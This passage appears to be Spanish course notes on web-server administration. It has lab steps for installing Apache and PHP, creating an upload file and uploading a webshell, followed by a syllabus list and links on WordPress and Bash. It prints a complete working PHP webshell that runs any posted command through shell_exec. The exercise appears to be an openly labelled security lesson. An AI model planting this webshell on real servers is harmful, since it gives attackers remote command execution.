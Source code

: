 # Instalar Apache y PHP (comprobar que se ha instalado con un fichero phpinfo())

# Crear fichero upload

# Subir una Webshell

# Webshell
```PHP
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<!-- By Artyum (https://github.com/artyuum) -->
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            border-radius: 5px;
        }

        pre,
        input,
        button {
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        pre,
        input,
        button {
            padding: 10px;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```

-----------
-----------

# Administración de servidores web:
- Configuración avanzada del servidor web.
- Módulos: instalación, configuración y uso.
- Hosts virtuales. Creación, configuración y utilización.
- Autenticación y control de acceso.
- El protocolo HTTPS.
- Certificados. Servidores de certificados.
- Empaquetado de aplicaciones web.
- Despliegue de aplicaciones sobre servidores web.

---------------

# Install WordPress
* https://ubuntu.com/tutorials/install-and-configure-wordpress#3-install-wordpress

# Repaso de Linux
* https://www.jesusninoc.com/02/03/curso-de-bash-scripting-con-ejemplos/
* https://github.com/jesusninoc/Bash/blob/master/Introduccion/EjemplosIntroducci%C3%B3n.sh
* https://github.com/jesusninoc/Bash/blob/master/Introduccion/EjemplosOperacionesCadenas.sh
* https://github.com/jesusninoc/Bash/tree/master/Examenes
* https://github.com/jesusninoc/ClasesISO/blob/master/2019-10-15.md
* https://github.com/jesusninoc/Bash/tree/master/Permisos
* https://github.com/jesusninoc/Bash/tree/master/Ficheros
* https://github.com/jesusninoc/Bash/tree/master/Repaso
* https://github.com/jesusninoc/Bash/tree/master/Monitorizacion
* https://github.com/jesusninoc/Bash

# Visto
- Scripts interesantes https://github.com/jesusninoc/Scripts
- Comilla violenta

